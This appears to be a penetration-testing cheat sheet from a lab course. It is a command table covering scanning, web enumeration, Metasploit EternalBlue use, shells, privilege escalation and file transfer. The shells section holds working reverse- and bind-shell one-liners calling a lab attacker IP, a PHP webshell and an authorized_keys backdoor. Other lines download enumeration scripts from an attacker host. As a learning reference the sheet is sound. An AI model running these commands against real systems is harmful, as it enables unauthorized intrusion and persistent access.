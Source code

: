 # Pentesting

| **Command**                                                  | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| **Service Scanning**                                         |                                                              |
| `nmap 10.129.42.253`                                         | Run nmap on an IP                                            |
| `nmap -sV -sC -p- 10.129.42.253`                             | Run an nmap script scan on an IP                             |
| `locate scripts/citrix`                                      | List various available nmap scripts                          |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40`       | Run an nmap script on an IP                                  |
| `netcat 10.10.10.10 22`                                      | Grab banner of an open port                                  |
| `smbclient -N -L \\\\10.129.42.253`                          | List SMB Shares                                              |
| `smbclient \\\\10.129.42.253\\users`                         | Connect to an SMB share                                      |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`   | Scan SNMP on an IP                                           |
| `onesixtyone -c dict.txt 10.129.42.254`                      | Brute force SNMP secret string                               |
| **Web Enumeration**                                          |                                                              |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website                            |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website                           |
| `curl -IL https://www.inlanefreight.com`                     | Grab website banner                                          |
| `whatweb 10.10.10.121`                                       | List details about the webserver/certificates                |
| `curl 10.10.10.121/robots.txt`                               | List potential directories in `robots.txt`                   |
| ++ctrl+u++                                                     | View page source (in Firefox)                                |
| **Public Exploits**                                          |                                                              |
| `searchsploit openssh 7.2`                                   | Search for public exploits for a web application             |
| `msfconsole`                                                 | MSF: Start the Metasploit Framework                          |
| `search exploit eternalblue`                                 | MSF: Search for public exploits in MSF                       |
| `use exploit/windows/smb/ms17_010_psexec`                    | MSF: Start using an MSF module                               |
| `show options`                                               | MSF: Show required options for an MSF module                 |
| `set RHOSTS 10.10.10.40`                                     | MSF: Set a value for an MSF module option                    |
| `check`                                                      | MSF: Test if the target server is vulnerable                 |
| `exploit`                                                    | MSF: Run the exploit on the target server is vulnerable      |
| **Using Shells**                                             |                                                              |
| `nc -lvnp 1234`                                              | Start a `nc` listener on a local port                        |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`        | Send a reverse shell from the remote server                  |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server                      |
| `nc 10.10.10.1 1234`                                         | Connect to a bind shell started on the remote server         |
| `python -c 'import pty; pty.spawn("/bin/bash")'`             | Upgrade shell TTY (1)                                        |
| ++ctrl+z++ then `stty raw -echo` then `fg` then `enter` twice  | Upgrade shell TTY (2)                                        |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file                                   |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                | Execute a command on an uploaded webshell                    |
| **Privilege Escalation**                                     |                                                              |
| `./linpeas.sh`                                               | Run `linpeas` script to enumerate remote server              |
| `sudo -l`                                                    | List available `sudo` privileges                             |
| `sudo -u user /bin/echo Hello World!`                        | Run a command with `sudo`                                    |
| `sudo su -`                                                  | Switch to root user (if we have access to `sudo su`)         |
| `sudo su user -`                                             | Switch to a user (if we have access to `sudo su`)            |
| `ssh-keygen -f key`                                          | Create a new SSH key                                         |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user                     |
| `ssh root@10.10.10.10 -i key`                                | SSH to the server with the generated private key             |
| **Transferring Files**                                       |                                                              |
| `python3 -m http.server 8000`                                | Start a local webserver                                      |
| `wget http://10.10.14.1:8000/linpeas.sh`                     | Download a file on the remote server from our local machine  |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`       | Download a file on the remote server from our local machine  |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`             | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                          | Convert a file to `base64`                                   |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`            | Convert a file from `base64` back to its orig                |
| `md5sum shell`                                               | Check the file's `md5sum` to ensure it converted correctlyBasic Tools |
 
